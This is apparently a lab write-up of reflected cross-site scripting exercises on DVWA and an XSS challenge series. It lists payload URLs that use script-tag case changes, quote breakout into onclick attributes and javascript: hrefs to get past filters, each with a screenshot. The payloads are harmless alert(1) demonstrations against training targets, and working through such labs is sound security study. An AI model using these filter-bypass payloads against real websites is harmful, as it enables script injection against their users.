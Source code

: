 # 0x01 dvwa xss(reflected)
## 1.1 Security Level: low
use the typical ` <script>alert(1)</script>` to pop up:
`http://n00p.me/dvwa/vulnerabilities/xss_r/?name=<script>alert(1)</script>`
![image](https://user-images.githubusercontent.com/38830968/39520335-d3aef522-4e3c-11e8-89b1-86ab1b42011a.png)

## 1.2 Security Level: medium
1. test as above, not work: 
`http://n00p.me/dvwa/vulnerabilities/xss_r/?name=<script>alert(1)</script>`
![image](https://user-images.githubusercontent.com/38830968/39520562-bcf1c552-4e3d-11e8-9450-7487c4ca47ec.png)

2. change url as below, bingo:
`http://n00p.me/dvwa/vulnerabilities/xss_r/?name=<Script>alert(1)</script>`
![image](https://user-images.githubusercontent.com/38830968/39520607-e5d48874-4e3d-11e8-98c6-c530f08c42e6.png)

3. alternative way:
`http://n00p.me/dvwa/vulnerabilities/xss_r/?name=<a onclick="alert(1)">click me</a>`
![image](https://user-images.githubusercontent.com/38830968/39520691-32b30cce-4e3e-11e8-96a5-5f800208e941.png)


## 1.3 Security Level: high
test , bingo:
`http://n00p.me/dvwa/vulnerabilities/xss_r/?name=<a onclick="alert(1)">click me</a>`
![image](https://user-images.githubusercontent.com/38830968/39520691-32b30cce-4e3e-11e8-96a5-5f800208e941.png)


# 0x02 xss challenge

## 2.1 level 1
payload: `http://n00p.me/xss/level1.php?name=<script>alert(1)</script>`
![image](https://user-images.githubusercontent.com/38830968/39521186-1264acc8-4e40-11e8-96ef-ac2cef2174bc.png)

## 2.2 level 2
test typical, and notice this line in source code:
``` html
<input name=keyword  value="<script>alert(1)</script>">
```
try to enclose the double quota , and this is payload: 
`n00p.me/xss/level2.php?keyword=a" onclick=alert(1)  id="             &submit=搜索`
![image](https://user-images.githubusercontent.com/38830968/39521583-b1252008-4e41-11e8-89f5-c26e5c157e7c.png)


## 2.3 level 3
same as level 2 except double quota to single quota
`n00p.me/xss/level3.php?keyword=a' onclick=alert(1)  id='            &submit=搜索`
![image](https://user-images.githubusercontent.com/38830968/39521604-ccc553c8-4e41-11e8-864d-94dbd60e7d69.png)

## 2.4 level 4
same as level 2
![image](https://user-images.githubusercontent.com/38830968/39521656-05be26d2-4e42-11e8-821f-39b848b9849a.png)

## 2.5 level 5
view the source code, notice that the `script` has been alted
``` html
<input name=keyword  value="<scr_ipt>alert(1)</script>">
```
change path, as below:
`http://n00p.me/xss/level5.php?keyword= a"><a href=javascript:alert(1)>bbb</a> <"     &submit`
![image](https://user-images.githubusercontent.com/38830968/39521826-c3b86346-4e42-11e8-8d37-c2d7564d612e.png)

## 2.6 level 6
view the source code, notice that the `href` has been alted
``` html
<input name=keyword  value="   a"><a hr_ef=javascript:alert(1)>bbb</a> <"         ">
``` 
turn `href` to Capital Letters , like `hRef`
`n00p.me/xss/level6.php?keyword=   a"><a hRef=javascript:alert(1)>bbb</a> <"         &submit`
![image](https://user-images.githubusercontent.com/38830968/39522012-7f609bcc-4e43-11e8-94ad-d2076ea4c6cf.png)









